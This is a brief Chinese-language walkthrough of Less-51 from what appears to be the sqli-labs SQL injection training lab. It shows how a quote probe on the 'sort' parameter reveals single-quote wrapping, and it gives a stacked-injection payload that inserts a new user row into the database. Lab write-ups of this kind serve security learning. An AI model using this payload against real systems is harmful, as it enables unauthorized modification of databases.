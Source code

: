 # GET -Error based -ORDER BY CLAUSE -string -Stacked injection  
TAG：GET型注入、堆叠注入、ORDER BY参数可控  
## 漏洞利用
此less是less50的变种，参数包裹方式发生了改变    
![less51_1](images\less51_1.png)  
  
当```?sort=1'```时，页面报错  
![less51_2](images\less51_2.png)  
  
当```?sort=1"```时，页面正常显示，这说明参数被单引号包裹  
![less51_3](images\less51_3.png)  
  
构造堆叠注入测试payload:```?sort=1';insert into users(id,username,password) values ('26','less51','hello')--+```  
![less51_4](images\less51_4.png)  